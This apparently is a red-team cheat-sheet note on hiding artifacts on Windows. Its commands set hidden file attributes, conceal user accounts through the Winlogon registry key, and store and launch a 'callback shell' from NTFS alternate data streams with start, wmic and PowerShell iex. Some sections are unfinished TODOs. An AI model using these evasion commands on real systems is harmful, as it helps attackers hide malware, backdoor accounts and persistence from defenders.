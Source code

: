 # Hide Artifacts

## 01 - Manual

### 1.1 - Hiding Files and Directories

#### 1.1.1 - Command Prompt

`C:\> attrib +h +s +r <file_or_directory>`

### 1.2 - Hiding Users

#### 1.2.1 - Basic Commands

##### 1.2.1.1 - Command Prompt

- **Note:** This will take effect after restart

`C:\> net user <username> /active:no`

#### 1.2.2 - Registry

^32d5ef

##### 1.2.2.1 - Command Prompt

- Makes the username at the login screen prompt not visible

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v <username> /t REG_DWORD /d 0 /f`

##### 1.2.2.2 - Regshell

TODO: Translate the command from above

`$ regshell`

### 1.3 - Hiding File Systems

#### 1.3.1 - Command Prompt

TODO: Fill this information

### 1.4 - Alternate Data Streams

#### 1.4.1 - Command Prompt

##### 1.4.1.1 - Basics

- **Hide the file**

`C:\> type shell.exe > file.txt:shell.exe`

- **Execute it**

`C:\> start file.txt:shell.exe`

##### 1.4.1.2 - WMIC

- **Execute Callback Shell via ADS**

`C:\> wmic process create "c:\path\to\file.txt:shell.exe"`

#### 1.4.2 - Powershell

##### 1.4.2.1 - Basics

- **Hide the file**

`PS C:\> Set-Content file.txt -Stream script.ps1 -Value shell.ps1`

- **Execute Callback Shell via ADS**

`PS C:\> Get-Content file.txt -Stream script.ps1 | iex`

## 02 - Impacket

### 2.1 - Hiding Users

#### 2.1.1 - Registry

TODO: Translate the command from above -> [[Hide Artifacts#^32d5ef]]

`$ reg.py`

## References

- [Defense Evasion Alternate Data Streams](https://www.hackingarticles.in/defense-evasion-alternate-data-streams/)

- [Alternate Data Streams ADS](https://infosecwriteups.com/alternate-data-streams-ads-54b144a831f1)

- [LOLBAS Project](https://lolbas-project.github.io)

- [Putting Data in Alternate Data Streams and How to Execute it](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

- [CqureAcademy Alternate Data Streams](https://cqureacademy.com/blog/alternate-data-streams)

- [ThreatSpike Alternate Data Streams](https://www.threatspike.com/blogs/alternate-data-streams)